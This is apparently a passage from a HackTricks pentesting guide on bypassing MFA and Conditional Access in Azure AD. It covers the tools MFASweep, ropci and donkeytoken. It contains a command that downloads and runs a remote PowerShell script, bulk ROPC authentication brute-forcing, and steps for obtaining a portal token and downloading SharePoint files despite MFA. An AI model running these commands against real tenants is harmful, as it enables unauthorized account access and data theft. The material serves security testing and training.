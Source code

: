 ```bash
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1").Content
Invoke-MFASweep -Username <username> -Password <pass>
```

### [ROPCI](https://github.com/wunderwuzzi23/ropci)

This tool has helped identify MFA bypasses and then abuse APIs in multiple production AAD tenants, where AAD customers believed they had MFA enforced, but ROPC based authentication succeeded.

> [!TIP]
> You need to have permissions to list all the applications to be able to generate the list of the apps to brute-force.

```bash
./ropci configure
./ropci apps list --all --format json -o apps.json
./ropci apps list --all --format json | jq -r '.value[] | [.displayName,.appId] | @csv' > apps.csv
./ropci auth bulk -i apps.csv -o results.json
```

### [donkeytoken](https://github.com/silverhack/donkeytoken)

Donkey token is a set of functions which aim to help security consultants who need to validate Conditional Access Policies, tests for 2FA-enabled Microsoft portals, etc..

<pre class="language-powershell"><code class="lang-powershell"><strong>git clone https://github.com/silverhack/donkeytoken.git
</strong><strong>Import-Module '.\donkeytoken' -Force
</strong></code></pre>

**Test each portal** if it's possible to **login without MFA**:

```powershell
$username = "conditional-access-app-user@azure.training.hacktricks.xyz"
$password = ConvertTo-SecureString "Poehurgi78633" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Invoke-MFATest -credential $cred -Verbose -Debug -InformationAction Continue
```

Because the **Azure** **portal** is **not constrained** it's possible to **gather a token from the portal endpoint to access any service detected** by the previous execution. In this case Sharepoint was identified, and a token to access it is requested:

```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune
Read-JWTtoken -token $token.access_token
```

Supposing the token has the permission Sites.Read.All (from Sharepoint), even if you cannot access Sharepoint from the web because of MFA, it's possible to use the token to access the files with the generated token:

```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```

## References

- [https://www.youtube.com/watch?v=yOJ6yB9anZM\&t=296s](https://www.youtube.com/watch?v=yOJ6yB9anZM&t=296s)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}



